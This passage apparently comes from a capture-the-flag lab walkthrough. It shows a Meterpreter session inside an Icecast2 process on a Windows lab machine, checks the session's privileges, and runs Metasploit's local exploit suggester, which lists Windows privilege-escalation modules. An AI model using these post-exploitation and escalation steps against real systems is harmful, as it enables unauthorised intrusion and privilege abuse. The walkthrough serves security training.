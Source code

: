 ```plain text
meterpreter > getpid
Current pid: 2344
meterpreter > ps
...
2344  1520  Icecast2.exe          x86   1        Cathy-PC\Cathy C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
...
```

And you’re in! Your initial inspection indicates that you’re operating in the Icecast2.exe process as the user Cathy. What were you here to do again? Ah, yes. You wanted to change the club’s awful background music and fix the vulnerability.

# Escalation

To get to the music, you’ll need more privileges than those currently available:

```plain text
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

Time to escalate. You can use the script that the [Rapid7 team](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) developed: `post/multi/recon/local_exploit_suggester`, after moving the current session to the background with `Ctrl-Z` and `set`ting the session. Where does this take you?

```plain text
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.195.113 - Collecting local exploits for x86/windows...
...
[*] 10.10.195.113 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ikeext_service                           Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
```